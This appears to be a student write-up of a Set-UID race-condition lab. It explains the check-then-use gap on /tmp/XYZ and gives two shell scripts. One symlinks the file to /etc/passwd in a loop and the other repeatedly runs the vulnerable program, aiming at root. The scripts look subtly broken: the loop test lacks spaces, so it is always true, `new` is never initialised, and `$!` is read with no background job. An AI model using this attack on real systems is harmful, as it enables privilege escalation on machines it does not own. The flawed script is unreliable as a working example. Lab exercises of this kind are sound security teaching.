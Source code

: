 It appears that the program does not have any problem at the first look. However, there is a race condition vulnerability in this program: due to the window (the simulated delay) between the check (`access`) and the use (`fopen`), there is a possibility that the file used by `access` is different from the file used by `fopen`, even though they have the same file name `/tmp/XYZ`. If a malicious attacker can somehow make `/tmp/XYZ` a symbolic link pointing to `/etc/shadow`, the attacker can cause the user input to be appended to `/etc/shadow` (note that the program runs with the root privilege, and can therefore overwrite any file).

### Task 1: Exploit the Race Condition Vulnerabilities

You need to exploit the race condition vulnerability in the above Set-UID program. More specifically, you need to achieve the following:

- Overwrite any file that belongs to root.
- Gain root privileges; namely, you should be able to do anything that root can do.

Our attack script:

```sh
#!/bin/sh
# attack.sh
race()
{
	old=`ls -l /etc/passwd`
	old=`ls -l /etc/passwd`
	while [ "$old"="$new" ]
	do
		rm -f /tmp/XYZ
		>/tmp/XYZ
		ln -sf /etc/passwd /tmp/XYZ
		new=`ls -l /etc/passwd`
	done
}

race
echo "Stop... The passwd has been changed!"
RACE_PID=$!
kill $RACE_PID
```

Loop execution script:

```sh
#!/bin/sh
# loop.sh
race()
{
	while true
	do
		./vulp < attack_input
	done
}

race
RACE_PID=$!
kill $RACE_PID
```
